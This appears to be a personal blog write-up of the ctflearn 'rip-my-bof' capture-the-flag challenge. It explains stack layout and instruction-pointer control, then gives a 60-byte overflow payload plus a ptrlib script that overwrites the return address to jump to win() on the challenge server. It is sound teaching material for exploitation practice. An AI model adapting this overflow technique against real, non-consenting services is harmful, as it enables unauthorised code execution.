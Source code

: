 ```yaml
---
title: "ctflearn: rip-my-bof"
layout: archive
date:   2021-03-01
tags: jeopardy
tags_label: true
---
```


This is a ctflearn challenge in the pwn category. It was my first rip challenge ever.

![/assets/images/rip-my-bof/c1.png](/assets/images/rip-my-bof/c1.png)

#### What is a RIP?

RIP stands for redirect instruction pointer.

**Instruction Pointer**: The instruction pointer refers to the EIP register which points to the current instruction during a program's execution by containing its memory address. By controlling the instruction pointer we can overwrite the address the program will execute and have it go to a different address.

This is the program we are given:

![/assets/images/rip-my-bof/c2.png](/assets/images/rip-my-bof/c2.png)

In this instance we would definitely want access to the `win()` function.
If we can overflow the buffer `buff` and `padding`, we can overwrite for the return address to point to the `win()` and get the flag.

This program has the following stack representation (sometimes drawn the other way around, I think it makes more sense this way):

![/assets/images/rip-my-bof/rip.png](/assets/images/rip-my-bof/rip.png)

In this diagram the "Saved Frame Pointer" is refering to `EBP`, and `ESP`. `EBP` is the stack base pointer, which is the bottom/base of the current stack frame. `ESP` is current top of the stack.  

So we need to create a payload of size 60 bytes to reach the return address to overwrite it.

When we run the program we get:

![/assets/images/rip-my-bof/c3.png](/assets/images/rip-my-bof/c3.png)

I really like the memory representation that they give.

I now need to create a buffer of exactly 60 bytes. I used the metaploit tool pattern create to do this.
```
crazyeights@es-base:~$ /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 60
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9
```

Now that we have our buffer to put us in the position to overwrite the return address of `vuln()`, we need the address of `win()` to overwrite it with.
We can find this using objdump:
```
objdump -d server  | grep win
08048586 <win>:
```

We must reverse this address because values are are stored in little-endian encoding, which means the least significant byte is stored first: `\x86\x85\x04\x08`

So when we put these two together our payload is:
```python
payload = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9' + '\x86\x85\x04\x08'
```

To perform the exploit, I am using the python package ptrlib.
[ptrlib pypi](https://pypi.org/project/ptrlib/)

To exploit, we:
1. Open the socket
2. Create the payload
3. Send the payload after we recieve the `Input some text:` message
4. We loop through the response and print it.

Here is the code:
```python
from ptrlib import *

sock = Socket("thekidofarcrania.com", 4902)

payload = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9' + '\x86\x85\x04\x08'

sock.sendlineafter("Input some text:", payload)

while True:
	print(sock.recvline().decode("utf-8"))
```

Here is the output:
![/assets/images/rip-my-bof/c6.png](/assets/images/rip-my-bof/c6.png)

We now have the flag. Whoop!

FIN.
